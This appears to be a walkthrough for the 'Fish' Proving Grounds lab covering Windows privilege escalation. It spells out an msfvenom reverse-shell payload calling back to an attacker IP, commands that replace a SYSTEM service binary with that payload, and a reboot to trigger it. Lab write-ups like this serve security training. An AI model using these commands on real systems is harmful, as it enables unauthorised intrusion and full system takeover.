
### SeShutdownPrivilege

SeShutdownPrivilege  
Description: Shut down the system  
State: Disabled

This allows the user to **restart or shut down the computer**.

Even though it shows **Disabled**, the user can usually still run:

`shutdown /r`

In the walkthrough, this privilege was important because it allowed restarting the machine after replacing the service binary.

Example command:

```cmd
shutdown /r /t 0
```
Meaning:

restart immediately

Since Oracle GlassFish runs as SYSTEM, I should be able to replace one of the binaries in this directories with malicious reverse shell, restart the host, and get a shell as SYSTEM once the service starts up on boot.

First, I’ll create another malicious EXE file with msfvenom:

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.157 LPORT=5555 -f exe > domain1Service.exe
```

Then from my shell, I’ll change the name of the legit binary (domain1Service.exe), then transfer the malicious one to the box with the same name and in the same directory:

```cmd
move domain1Service.exe domain1Service.exe.bak
iwr -uri http://192.168.45.157:8000/domain1Service.exe -outfile domain1Service.exe
```



iwr didn't work.





With my payload ready to go, I’ll set up my netcat listener to catch the reverse connection, then restart the host:

```cmd
shutdown /r /t 0
```

After a couple minutes once the host has booted back up, my payload gets executed as SYSTEM and I receive a reverse connection:




https://medium.com/@johnniketas/proving-grounds-fish-686641bf1bdc

https://medium.com/@ryanchamruiyang/fish-proving-grounds-walkthrough-fea7bb0cf814

Different method:
https://medium.com/@Fasil713/fish-pg-walkthrough-e844a4f5c4bf
